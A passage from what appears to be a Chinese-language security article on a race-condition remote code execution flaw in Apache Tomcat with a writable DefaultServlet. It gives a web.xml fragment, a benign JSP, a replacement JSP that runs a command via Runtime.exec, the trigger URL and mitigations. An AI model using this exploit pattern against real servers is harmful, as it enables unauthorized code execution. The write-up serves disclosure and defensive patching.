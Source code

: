 ```
        <auth-constraint>
            <role-name>*</role-name> <!-- No restriction, allowing anonymous access -->
        </auth-constraint>
    </security-constraint>

</web-app>
```  
  
  
PS：只有对web.xml文件配置进行特定更改后，才能利用此漏洞。默认情况下，readonlyTomcat 的DefaultServlet中的参数设置为true，这会阻止写入操作。只有将此参数明确设置为 ，允许对 servlet 进行写入访问，才有可能利用此漏洞false。请始终检查并保护您的服务器配置，以减轻此类风险。  
  
**利用竞争条件**  
  
上传无害的 JSP 文件  
  
上传一个hello.jsp包含以下内容的简单文件：  
  
```
<% out.println("Hello, World!"); %>
```  
  
  
创建恶意 JSP 文件  
  
准备一个恶意 JSP 文件 ( HELLO.JSP) 来利用此漏洞：  
  
```
<%@ page import="java.io.*" %>
<!DOCTYPE html><html><head>    <title>Hello World JSP</title></head><body>    <h1>Hello, World!</h1>    <%        try {            // Execute the command to open calc.exe            Process process = Runtime.getRuntime().exec("cmd /c start calc.exe");            out.println("<p>Calculator has been opened successfully (if the server is running on Windows).</p>");        } catch (Exception e) {            out.println("<p>Error while opening calculator: " + e.getMessage() + "</p>");        }    %></body></html>
```  
  
  
该文件执行后将打开 Windows 计算器（calc.exe）。  
  
使用脚本用恶意的 HELLO.JSP 覆盖无害的 hello.jsp。  
  
**触发漏洞**  
  
访问，http://localhost:8080/<your-app>/uploads/hello.jsp从而触发恶意JSP执行。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48taevcg3ibLn7lUsB0VPhWgy7HTJb4UpyxYv1463tdLHLtHCBI8hpMicnr5iaRxgfBRQBoEC0okPqT53gg/640?wx_fmt=webp&from=appmsg "")  
  
**结果**  
- 执行恶意 JSP 文件，并在服务器上打开计算器应用程序（如果在 Windows 上运行）。  
  
- 这表明 RCE 已成功利用竞争条件。  
  
**缓解措施和注意事项**  
- 安全文件上传：避免允许 JSP 文件直接上传到应用程序提供的目录。  
  
- 升级 Apache Tomcat：确保您的 Tomcat 服务器正在运行修补版本（例如 11.0.2、10.1.34 或 9.0.98）。  
  
- 配置审查：禁用默认 Servlet 的写权限。  
  
  